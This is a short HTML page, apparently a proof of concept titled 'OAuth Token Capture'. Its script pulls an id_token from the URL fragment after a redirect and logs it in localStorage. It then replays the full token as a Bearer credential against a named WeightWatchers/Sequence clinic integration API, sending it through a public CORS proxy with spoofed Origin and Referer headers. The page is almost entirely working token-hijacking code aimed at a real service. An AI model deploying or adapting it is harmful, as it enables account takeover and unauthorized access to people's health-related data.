 <!DOCTYPE html>
<html>
<head>
  <title>OAuth Token Capture</title>
</head>
<body>
  <h1>OAuth Token Capture (Static GitHub Page)</h1>
  <p id="status">Waiting for token...</p>
  <textarea id="log" rows="20" cols="100" readonly></textarea>
  <button onclick="makeAuthorizedRequest()">🔍 Send Authenticated Request</button>
  <iframe id="responseFrame" style="width:100%; height:300px; border:1px solid #ccc; margin-top:1em;"></iframe>

  <script>
    const hash = window.location.hash.substring(1);
    const params = new URLSearchParams(hash);
    const id_token = params.get("id_token");

    const logBox = document.getElementById("log");
    const status = document.getElementById("status");

    if (id_token) {
      const shortToken = id_token.slice(0, 20) + '...' + id_token.slice(-20); // Truncate token
      const time = new Date().toISOString();
      const entry = `--- ${time} ---\nToken: ${shortToken}\nURL: ${window.location.href.split("#")[0]}\n\n`;

      const existing = localStorage.getItem("token_logs") || "";
      const updated = existing + entry;
      localStorage.setItem("token_logs", updated);

      logBox.value = updated;
      status.textContent = "✅ Token captured and saved in your browser (localStorage).";
    } else {
      status.textContent = "⚠️ No id_token found in URL fragment.";
      logBox.value = localStorage.getItem("token_logs") || "";
    }

    function makeAuthorizedRequest() {
      if (!id_token) return alert("No token found to send");

      const proxyUrl = "https://cors-anywhere.herokuapp.com/";
      const targetUrl = "https://ww-integration-api.joinsequence.com/api/v1/ww/clinic-tab-init?locale=en-US&path=%2F";

      fetch(proxyUrl + targetUrl, {
        method: "GET",
        headers: {
          "Authorization": `Bearer ${id_token}`,
          "Accept": "application/json, text/plain, */*",
          "Ww-Ssid": "en-US-1466641065.1750185",
          "Ww-Client": "rsw",
          "Origin": "https://www.weightwatchers.com",
          "Referer": "https://www.weightwatchers.com/"
        }
      })
      .then(response => response.text())
      .then(data => {
        const frame = document.getElementById("responseFrame");
        frame.srcdoc = `<pre>${data.replace(/</g, '&lt;')}</pre>`;
      })
      .catch(err => alert("Error making request: " + err));
    }
  </script>
</body>
</html>

